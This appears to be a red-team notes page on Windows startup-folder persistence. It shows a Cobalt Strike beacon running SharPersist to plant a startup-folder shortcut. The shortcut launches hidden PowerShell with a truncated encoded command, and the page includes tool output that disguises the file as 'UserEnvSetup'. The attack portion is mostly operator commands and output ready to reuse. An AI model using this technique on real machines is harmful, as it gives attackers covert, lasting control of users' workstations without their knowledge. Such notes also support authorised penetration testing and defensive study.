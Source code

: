 # Startup Folder

## Introduction - Startup Folder

Applications within a users startup folder are launched automatically when the user logs in to their workstation. It's typically used to set the users home environment, set shortcuts, etc.

## SharPersist & Cobalt Strike

We can use the `execute-shellcode` command from an existing beacon in CobaltStrike to establish persistence. We'll also have to utilize a tool like [SharPersist](https://github.com/mandiant/SharPersist) as there are no built-in persistence tools.&#x20;

#### Execute Payload

```powershell
beacon> execute-assembly C:\Tools\SharPersist.exe -t startupfolder -c 
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAo...AGEAIgApACkA" -f "NameOfFile" -m add

[*] INFO: Adding startup folder persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoA...bQAvAGEAIgApACkA
[*] INFO: File Name: UserEnvSetup
[+] SUCCESS: Startup folder persistence created
[*] INFO: LNK File located at: C:\Users\alice\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\UserEnvSetup.lnk
```

Where:

* `-f` is the filename to save as.

